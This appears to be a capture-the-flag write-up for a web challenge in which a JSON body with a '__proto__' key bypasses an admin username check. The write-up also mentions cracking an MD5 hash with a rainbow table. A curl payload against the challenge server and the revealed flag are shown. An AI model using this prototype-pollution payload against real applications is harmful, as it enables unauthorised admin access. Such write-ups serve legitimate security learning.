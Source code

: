 # Login Please

* Round: 26 (2022/10)
* Category: Web
* Points: 75
* Solves: 27

## Description

Login as admin to get flag, so easy right?

## Solution

You can send a json with `__proto__` to bypass the `username=admin` check, and crack md5 by using online rainbow table to get flag. It works because `req.body` have null prototype while the `{}` in `Object.assign` doesn't.

```sh
> curl http://puzzler7.imaginaryctf.org:5001/login -H 'Content-Type: application/json' --data '{"password":"admin","__proto__":{"username":"admin"}}'
Welcome admin! The flag is ictf{omg_js_why_are_you_doing_this_to_me}
```
